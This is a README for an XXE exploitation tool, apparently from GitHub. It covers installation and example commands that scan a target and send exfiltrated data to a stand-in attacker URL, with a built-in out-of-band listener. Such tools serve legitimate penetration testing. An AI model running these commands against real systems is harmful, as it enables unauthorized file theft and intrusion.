

# XXE_Master



XXE_Master is a powerful tool designed to detect, and exploit a wide range of XML External Entities(XXE), including data exfiltration, file inclusion, SSRF, RCE, and XSS. it supports variety of attack vectors through its rich set of payloads designed  for both direct and blind XXE exploitation.It supports all operating systems (Linux Windows, and MacOS).

## Table of Contents
- [Features](#features)
- [Requirements](#requirements)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Logging](#logging)
- [Contributing](#contributing)
- [License](#license)

## Features
- **Detection:** Identify XXE vulnerabilities in web applications with precisions.
- **Exploitation:** Automatically exploit detected vulnerabilities to demonstrate impact.
- **Out-of-Band (OOB) Listener:** Capture exfiltrated data through a built-in OOB listener for blind XXE attacks.
- **cross platform:** Supports Linux, Windows, and macOS.

## Requirements
- Python 3.x
- Required Python packages (installed via `setup.py` or `requirements.txt`)

## Installation

### Installation Steps
1. Clone the repository: 
shell
```
git clone https://github.com/uwimanaMuhiziElie/xxe_master.git
```
2. Navigate to the project directory:
shell
```
cd xxe_master
 ```
3. Install XXE_Master: 
shell
```
python setup.py install
```

## Usage
- For usage instructions, run 
shell
```
python xmaster.py --help
```

## Examples
- **Scan a target for XXE vulnerabilities**:
  - Demonstration: This command will scan the specified target URL for XXE vulnerabilities and use the specified attacker URL for data exfiltration. 
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com
  ```

- **Scan with custom delay and OOB listener settings**:
  - Demonstration: This command will scan the target URL with a custom delay of 5 seconds between outputs and will listen on port 8000 for out-of-band data. the tool starts an attacker server in the background to handle out-of-band data exfiltration automatically. The server stops when the scan completes.
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com --delay 5
  ```

## Examples 
1.Scan a Target for XXE Vulnerabilities
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate
```
2.Scan with Custom Delay
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate --delay 5
```

## Logging
The tool logs all detected vulnerabilities and exfiltrated data in the logs/attacker_server.log file. This includes the OOB data captured during blind XXE attacks.

## Troubleshooting
- If you encounter any issues, please [open an issue](https://github.com/uwimanaMuhizieElie/xxe_master/issues) on GitHub.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

### Elie Uwimana 😎
- [LinkedIn](www.linkedin.com/in/elie-uwimana)


            
